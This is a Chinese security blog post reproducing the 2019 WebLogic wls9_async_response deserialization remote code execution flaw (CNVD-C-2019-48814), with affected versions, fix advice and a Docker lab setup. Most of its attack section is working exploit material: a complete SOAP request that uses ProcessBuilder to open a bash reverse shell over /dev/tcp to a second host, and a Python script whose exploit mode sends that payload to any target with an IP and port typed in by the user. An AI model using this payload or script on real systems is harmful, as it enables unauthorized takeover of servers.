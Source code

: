 ```yaml
---
layout:     post
title:      Weblogic反序列化远程代码执行漏洞
subtitle:   Weblogic反序列化远程代码执行漏洞
date:       2019-06-28
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 反序列化漏洞
    - Weblogic漏洞
---
```

  4月17日，国家信息安全漏洞共享平台（CNVD）公开了Weblogic反序列化远程代码执行漏洞，此漏洞存在于weblogic自带的wls9_async_response.war组件中，由于该war包在反序列化处理输入信息时存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，获取服务器权限，实现远程代码执行。

## 0x00 漏洞概述
**漏洞描述**
   该漏洞是由wls9_async_response组件导致，在反序列化处理输入信息时存在缺陷，攻击者可以发送精心构造的恶意 HTTP 请求，未授权的情况下远程执行命令。部分版本WebLogic中默认包含的wls9_async_response包，主要是为WebLogic Server提供异步通讯服务。

**漏洞等级**：高危

**漏洞编号**：CNVD-C-2019-48814

**影响范围**
* Oracle WebLogic Server 10.*
* Oracle WebLogic Server 12.1.3
* 启用bea_wls9_async_response组件的所有Weblogic版本

**修复建议**
* 删除wls9_async_response的war包并重启webLogic；
* 通过访问策略控制禁止 /_async/* 路径的URL访问。

## 0x01 环境搭建
我使用的是docker，比较方便。

启动docker命令如下：
```
systemctl start docker 
```
创建docker-compose.yml，内容如下：
```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic
   ports:
    - "7001:7001"
```
启动测试环境命令如下：
```
docker-compose up -d
```
查看环境是否启动成功，命令如下：
![图片](../../../../img/CNVD-C-2019-48814-1.png)
## 0x02 复现漏洞
访问如下URL：
```
http://10.20.40.96:7001/_async/AsyncResponseService
```

![图片](../../../../img/CNVD-C-2019-48814-2.png)

通过burp suite repeater模块发送下面的POST数据包：
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 10.20.40.96:7001
Content-Length: 787
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.20.40.97/7777 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

![图片](../../../../img/CNVD-C-2019-48814-3.png)
最终成功反弹到了10.20.40.97上
![图片](../../../../img/CNVD-C-2019-48814-4.png)


## 0x03 python脚本
```
#!/usr/bin/python
# -*- coding:utf-8 -*-
# wirter:En_dust
import requests
import sys


headers = {'content-type':'text/xml','User-Agent':'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50'}




def poc(target):
    if 'http' in target:
        url = target + '_async/AsyncResponseService'
        r =requests.get(url,timeout=2)
        if r.status_code ==200:
            print("[ + ] " + target + '可能存在Weblogic反序列化远程代码执行漏洞!' )
        else:
            print("[ - ] " +target + "不存在漏洞！")
def exp(target):
    ip = input("反弹到哪个IP?")
    port = input("反弹到哪个端口?")
    payload = '''
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
    <soapenv:Header> 
    <wsa:Action>xx</wsa:Action>
    <wsa:RelatesTo>xx</wsa:RelatesTo>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
    </void>
    </array>
    <void method="start"/></void>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
    <asy:onAsyncDelivery/>
    </soapenv:Body></soapenv:Envelope>
    ''' % (ip, port)
    if 'http' in target:
        url = target + '_async/AsyncResponseService'
        r = requests.post(url,headers=headers,data=payload,timeout=2)
        if r.status_code ==202:
            print("反弹成功！")




if __name__ == '__main__':
    target = sys.argv[1]
    action = sys.argv[2]
    if target != '':
        if action == '':
            exit()
        elif action == 'poc':
            poc(target)
        elif action == 'exp':
```
            exp(target)



效果图：
![图片](../../../../img/CNVD-C-2019-48814-5.png)
![图片](../../../../img/CNVD-C-2019-48814-6.png)
![图片](../../../../img/CNVD-C-2019-48814-7.png)

[Github下载地址](https://github.com/FiveAourThe/exploit-by-python/blob/master/Weblogic/Weblogic.py)



